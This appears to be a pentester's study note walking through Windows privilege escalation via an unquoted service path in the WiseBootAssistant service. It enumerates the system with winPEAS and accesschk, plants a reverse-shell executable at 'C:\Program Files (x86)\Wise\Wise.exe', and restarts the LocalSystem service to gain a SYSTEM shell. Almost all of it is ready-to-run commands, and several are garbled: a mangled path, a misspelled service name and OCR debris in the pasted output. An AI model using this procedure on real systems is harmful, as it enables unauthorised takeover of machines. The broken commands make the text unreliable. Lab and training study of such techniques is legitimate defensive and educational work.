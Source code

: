 1. Run winPEAS to check for service misconfigurations:

```batch - windows
.\winPEASx64.exe quiet servicesinfo
```

2. Note that the “WiseBootAssistant” service has an unquoted path that also contains spaces:

`WiseBootAssistant (WiseCleaner.com - Wise Boot Assistant)[C:\FProgram Files (x86)\ [ \Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected`

3. Confirm this using sc:
```batch - windows
sc qc WiseBootAssitant
```
4. Use accesschk.exe to check for write permissions:

```batch - windows
.\accesschk64.exe /accepteula -uwdq C:\
```

```batch - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```batch - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```

5. Copy the reverse shell executable and rename it appropriately:

[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
copy C:\PrivEsc\reverse.exe "C:\Program Files (x86)\Wise\Wise.exe"
```

6. Stop the service

```batch - windows
sc stop WiseBootAssistant
```

```batch - windows
sc query WiseBootAssitant
```

```
...
SERVICE _NAME: WiseBootAssistant 
	TYPE : 110 WIN32_OWN_PROCESS (interactive) 
	STATE : 1 STOPPED
	...
```


6. Start a listener on Kali, and then start the service to trigger the exploit:

![[1._rlwrap]]

```batch - windows
net start WiseBootAssitant
```

Visual example:

```batch - windows
.\winPEAS.exe quiet servicesinfo
```

`WiseBootAssistant(wiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected miss. :uhers [WriteData/CreateFiles] Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Users [WriteData/CreateFiles]) In order to optimize system performance,Wise Care 365 will calculate your system startup time.`

```


![[Pasted image 20211229122911.png]]

```batch - windows
sc qc WiseBootAssistant
```


`START_TYPE P2 AUTO_START`
`ERROR_CONTROL i1 NORMAL` 
`BINARY PATH NAME : C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe` 
`LOAD_ORDER_GROUP : ` 
`TAG : 0` 
`DISPLAY_NAME : Wise Boot Assistant`
`DEPENDENCIES : `  
`SERVICE START_NAME : LocalSystem`

```batch - windows
.\accesschk64.exe /accepteula -ucqv Aaron WiseBootAssistant
```

```batch - windows
.\accesschk.exe /accepteula -uwdq C:\
```

```batch - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```batch - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```

